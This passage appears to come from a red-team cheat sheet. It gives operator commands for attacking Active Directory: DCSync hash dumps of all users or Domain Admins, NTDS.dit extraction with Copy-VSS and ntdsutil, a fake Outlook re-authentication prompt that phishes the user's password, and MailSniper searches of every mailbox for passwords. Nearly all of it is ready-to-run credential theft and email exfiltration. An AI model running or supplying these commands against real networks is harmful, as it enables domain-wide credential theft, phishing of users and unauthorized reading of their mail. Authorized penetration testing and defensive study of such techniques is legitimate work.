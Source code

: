```

### NTDS.dit dump (all commands below require Domain Admin privileges!)

[Invoke-DCSync.ps1](https://gist.github.com/monoxgas/9d238accd969550136db) to perform DCSync attacks remotely 
```
powershell-import --> Invoke-DCSync.ps1

# Perform DC Sync hash dump for all users in the target domain
powershell Invoke-DCSync -Domain lab.local [-DomainController ops-dc01.lab.local] 

# Perform DC Sync hash dump for all users in the specified group
powershell Invoke-DCSync -Domain lab.local -GroupName "Domain Admins" | ft -wrap -autosize
```
[Copy-VSS.ps1 from Nishang toolkit](https://github.com/samratashok/nishang/blob/master/Gather/Copy-VSS.ps1) to dump NTDS.dit locally on the DC
```
powershell-import --> Copy-VSS.ps1
powerpick Copy-VSS -DestinationDir C:\temp
```
NTDSutil.exe to dump NTDS.dit locally on a Domain Controller
```
run ntdsutil.exe activate instance ntds,ifm,create full C:\ntdsutil,quit,quit | ntdsutil
```

### Credential Prompt
[CredPrompt](https://github.com/guervild/BOFs/tree/dev/CredPrompt) BOF to ask the current user for their username/password.
```
credprompt "Credentials are required to re-authenticate to Outlook:"
```
------------------------------------------------------------------------------------------
## Exfiltration - Email

### [MailSniper](https://github.com/dafthack/MailSniper)
PowreShell tool to search mailboxes in a Microsoft Exchange environment
```
powershell-import -> Select MailSniper.ps1

# Search all mailboxes in a domain - Looks for "*password*","*creds*","*credentials*"
powershell Invoke-GlobalMailSearch -ImpersonationAccount current-username -ExchHostname ExchangeHost.domain.com -OutputCsv global-email-search.csv

# Search the current users mailbox
powershell Invoke-SelfSearch -Mailbox current-user@domain.com

